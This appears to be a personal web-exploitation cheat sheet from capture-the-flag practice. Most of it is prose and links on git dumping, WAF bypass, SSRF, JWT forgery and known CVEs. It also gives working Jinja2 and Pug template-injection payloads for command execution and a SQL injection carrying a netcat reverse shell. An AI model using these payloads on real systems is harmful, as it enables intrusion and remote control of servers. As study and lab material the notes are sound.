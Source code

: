 ## Git related stuff
First we download all the files from the .git folder from `wget -r http://HOSTNAME/.git`
1. `git log "some file"` to get its hit history along with the hash of the commit
2. `git diff "hash1" "hash2" "some file"` to get the differences of the content of the file in between those 2 commits
3. Or simply do a `git diff` to get differences of all files

Note: The hash is nothing but a file path in the object directory which is the compressed version of the target file, encoded as first 2 chars is the parent directory and the rest is the file path. For eg:- if 583aa7debb21f1b5bd6a0316e40d8df102fa1322 is a commit hash then we can go to .git/objects/58/3aa7debb21f1b5bd6a0316e40d8df102fa1322 to get compressed version of the file, which we can then decompress using this python onliner `import zlib;print(zlib.decompress(open('').read("FILENAME")));`, FILENAME being the file where we have saved the compressed version of the file taken from the objects directory

## Execute after Read
If we have a page which gives a 302 and redirects us to another page, and doesnt have a die(); in its php, then even though our browser will redirect to the location specified in the header by reading 302 code but with an interceptor like burp we can get the contents of the entire current file, which could reveal info, like URL's n stuff. Andf if we want to render that page in the browser then we can intercept the response too from burp, and change the 302 found to a 200 OK and our browser will render it

## WAF bypass
many webapps support unicode compatibility and us utf-8 encoding, but usually do checking first before doing the unicode equivalence, hence we can use this awesome website to check for unicode equivalent characters of a charecter https://www.compart.com/en/unicode/U+002F simply search for the character u want equivlant and use the unicode of equivalent chars. This can be leverage to bypass many WAFs to get LFI, sqli, etc.

## If we can confirm an SSRF and want to access internal services like any internal webapp, or internal ftp service but cant due to blacklistings
Then we can host a 301 redirctor link to the director here: https://gist.github.com/TheHackerDev/853b17e9f03c6d5a1cebd9556327e94c. Using this, we can make the server GET our page (which isnt blocked by the blacklist) which will redirect it to localhost, or any other website of our choice.

## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell
## If we have RCE via any webapp, but quotes, / doesnt work then to pass commands with spaces we can use \`"Commmand here"\`, this may not give output, since it will treat the output of the command entered as a command, but since since it evaluates the <Command here>, hence we can use this to get access, even rev shells, An example: \`cat /flagfTXY4 > something\`

## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
